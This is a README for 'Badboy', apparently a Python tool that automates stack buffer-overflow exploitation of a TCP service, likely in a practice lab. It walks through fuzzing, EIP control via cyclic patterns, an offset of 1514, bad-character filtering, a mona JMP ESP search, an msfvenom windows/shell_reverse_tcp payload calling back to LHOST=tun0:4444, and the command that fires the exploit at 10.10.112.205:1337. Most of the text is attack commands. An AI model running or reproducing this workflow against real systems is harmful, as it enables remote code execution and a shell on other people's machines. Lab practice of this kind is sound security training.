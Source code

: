 # Badboy


## Fuzzing

In order to Fuzz the application we need to select the connection type and also supplying the IP, Port and Prefix.
The Prefix can be HTTP POST parameters or a command from a program, e.g in that context Help would be the Prefix: 
```
HELP AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```
python3 Badboy.py --mode fuzz -c raw-tcp [IP] [PORT] [PREFIX]
```
![Fuzzing](img/fuzz.png)
## Injecting Cyclic Pattern in order to Control EIP
From the previous step, we can see that the service crashed at 1500 bytes.
I then decided to generate a cyclic pattern of 1600 bytes (100 bytes more), just in case.
```
msf-pattern_create -l 1600 | python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" --cpattern 1
```
![Inject Cyclic PAttern](img/inject-a-cyclic-pattern-from-stdin.png)

After having injected the cyclic pattern, we can see that the EIP value is being affected, copy the value in EIP
and supply it to **msf-pattern_create**

![Get Cyclic PAttern](img/get-cyclic-char-in-eip.png)
```
msf-pattern_offset -l 1600 -q "35794234"
```
![Get Offset](img/get-offset-from-cyclic-chars.png)

Now that we have found the correct offset, we can supply it to Badboy, to check if EIP will hold the value "CCCC" or "43434343"
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514
```
![Check Offset](img/checking-offset-for-eip.png)

By default if you have the good offset, Badboy will put the character "CCCC" or "43434343" in hex in the EIP register
If you see this value, that means that you have the good offset and you have controlle EIP, you can move to the next step.
![Check controlled EIP](img/eip-controlled.png)

## Testing and Filtering Bad Char

Bad char can be filtered quickly and easily directly from the shell.
Simply start by providing the Bad char (\x00) or "00" in our case.
All Badchars needs to be coma seperated like followed : 
```
-b "00,41,2f"
```
```
python3 Badboy.py --mode inject -c raw-tcp [IP] [PORT] [PREFIX] -off [OFFSET] -b [BADCHARS] 
```
![Badchar1](img/inject-testing-badchar-1.png)

Repeat the process until every Bad chars have been filtered out.
![Badchar2](img/inject-testing-badchar-2.png)
![Badchar3](img/inject-testing-badchar-3.png)
![Badchar4](img/inject-testing-badchar-4.png)
![Badchar5](img/inject-testing-badchar-5.png)

## Finding a JMP ESP instruction
Now we need to find a JMP ESP address that doesn't contain 1 of the bad characters found earlier.
In Immunity Debugger, type the following command in the command box:
```
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```
![JMP ESP](img/get-jmp-esp-address-from-mona.png)
Don't forget to revert the bytes of the address, since it is little endian.
E.g : 625011d3 becomes d3115062

## Creating Shellcode
We can now generate our shellcode with every bad characters found in order to exclude them from our shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f c -b "\x00\x04\x3e\x3f\xe1"
```

## Trigger the Exploit 
Once you have the eliminated all the Bad chars, that you have your Offset and your have the value of EIP.
Put the Shell code in the place reserved for it in the script and fire the exploit like the screenshot below: 
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514 -eip 'd3115062'
```
![Fuzzing](img/inject-trigger-shell.png)
